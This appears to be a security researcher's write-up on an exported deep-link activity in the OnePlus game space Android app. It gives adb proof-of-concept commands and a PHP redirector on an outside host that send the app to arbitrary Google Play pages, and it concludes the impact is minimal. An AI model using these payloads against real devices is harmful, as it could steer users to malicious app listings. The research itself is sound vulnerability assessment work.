 # Description

## com.oplus.games.ExternalJumpActivity

**TL;DR** I found ways to open arbitrary packages in Google Play. Also pingback to an arbitrary HTTP service is possible, but it can only be used to cirle back to Google Play. I don’t really see any way forward here. Good effort though.

```xml
<activity android:theme="@android:style/Theme.Translucent.NoTitleBar.Fullscreen" android:name="com.oplus.games.ExternalJumpActivity" android:exported="true" android:screenOrientation="portrait">
	<intent-filter>
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<data android:scheme="app" android:host="com.oplus.games" android:pathPrefix="/jump" />
	</intent-filter>
</activity>
```

  This activity allows to ope arbitrary apps in Google Play. It seems by design and I don’t see any impact in this behavior itself. Even if there isn’t a possibility to just do it directly with Google Play intents (or https links), best one can do is social engineering I guess.

Working payload to open Google Play for arbitrary app

```bash
adb shell am start -a android.intent.action.VIEW \
-d "app://com.oplus.games/jump?url=https%3a//play.googles.com/store/apps/details%3fid%3dpl.com.insert.gestormobile%26pcampaignid%3dweb_share%26_back_hand_%3dtest%26_source_stat_%3d{}" \
com.oneplus.gamespace
```

Here’s the payload that performs a pingback to an arbitrary HTTP service. It can be used to redirect(sic!) to an arbitrary Google Play package:

First, prepare a redirector:

```php
<?php
header("Location: market://details?id=pl.com.insert.gestormobile&referrer=", true, 301);
exit;
?>
```

Then run the PoC:

```bash

adb shell am start -a android.intent.action.VIEW \
-d "app://com.oplus.games/jump?url=https%3A%2F%2Ftellico.fun%2Foneplus.php%3Fonelink%3D1&pcampaignid=web_share&_back_hand_=test&_source_stat_={}" \
com.oneplus.gamespace
```

When working on it, I created and used [[root.research.frida.call-tracking]]